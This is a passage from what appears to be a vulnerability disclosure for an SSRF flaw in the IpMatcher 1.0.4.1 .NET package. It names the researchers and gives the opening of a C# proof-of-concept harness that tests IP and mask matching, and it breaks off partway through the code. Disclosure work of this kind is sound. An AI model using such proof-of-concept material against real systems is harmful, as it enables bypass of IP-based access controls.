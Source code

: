 # Researchers
- *Harold Hunt* https://github.com/huntharo
- *Kelly Kaoudis* https://github.com/kaoudis || https://twitter.com/kaoudis
- *John Jackson* https://twitter.com/johnjhacking
- *Sick Codes* https://github.com/sickcodes || https://twitter.com/sickcodes
- *Victor Viale* https://github.com/koroeskohr || https://twitter.com/koroeskohr
- *Nick Sahler* https://github.com/nicksahler || https://twitter.com/tensor_bodega
- *Cheng Xu* https://github.com/xu-cheng

# Proof of Concept
This is [also available on PacketStorm](https://packetstormsecurity.com/files/167178/ipmatcher1041-ssrf.txt).

```
/* Author: Kelly Kaoudis
 * License: GPLv3
 *
 * Requires:
 * `dotnet add package IpMatcher --version 1.0.4.1`
 *
 * To run:
 * `dotnet run`
 */

using System;
using IpMatcher;

namespace dotnet
{
    class PoC
    {
        private static void checkExists(Matcher matcher, string ip, string mask)
        {
            if (matcher.Exists(ip, mask))
            {
                Console.WriteLine("matches on " + ip + " / " + mask);
            }
            else
            {
                Console.WriteLine("DOES NOT match on " + ip + " / " + mask);
            }
        }

        private static void checkMatchExists(Matcher matcher, string ip)
        {
            if (matcher.MatchExists(ip))
            {
                Console.WriteLine("matches on " + ip);
            }
            else
            {
                Console.WriteLine("DOES NOT match on " + ip);
            }

        }

        private static void dumpMatcher(Matcher matcher)
        {
            Console.WriteLine("\nWhat is actually in the matcher now (if nothing follows on the next line, nothing)?");
            foreach (string addr in matcher.All())
```